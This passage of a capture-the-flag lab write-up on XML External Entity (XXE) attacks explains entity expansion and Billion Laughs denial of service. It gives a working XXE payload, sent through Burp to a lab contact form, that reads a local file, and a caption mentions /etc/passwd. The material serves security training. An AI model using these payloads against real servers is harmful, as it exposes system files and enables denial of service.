 Using the payload above, replace the initial XML data submitted to contact\_submit.php and resend the request.

![Injected xxe payload pointed to /etc/passwd file](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/2f5c2d1f8e4c04b03daa1240463e7580.png)\


#### XML Entity Expansion

XML Entity Expansion is a technique often used in XXE attacks that involves defining entities within an XML document, which the XML parser then expands. Attackers can abuse this feature by creating recursive or excessively large entities, leading to a Denial of Service (DoS) attack or defining external entities referencing sensitive files or services. This method is central to both in-band and out-of-band XXE, as it allows attackers to inject malicious entities into the XML data. For example:

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "This is a test message" >]>
<contact><name>&xxe; &xxe;
</name><email>test@test.com</email><message>test</message></contact>
```

In the payload above, `&xxe;` is expanded wherever it appears. Attackers can use entity expansion to perform a Billion Laughs attack, where a small XML document recursively expands to consume server resources, leading to a denial of service.

![XML Expansion in action](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/3e45b26afe9371b2061afbdba33ea3ce.png)\




Contents of /opt/14232d6db2b5fd937aa92e8b3c48d958.txt

&#x20;_**Burp**_

```
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///opt/14232d6db2b5fd937aa92e8b3c48d958.txt" >]>
<contact><name>&xxe;</name><email>test2@testmail.com</email><message>test3</message></contact>
```

<figure><img src="../../.gitbook/assets/image (1088).png" alt=""><figcaption></figcaption></figure>
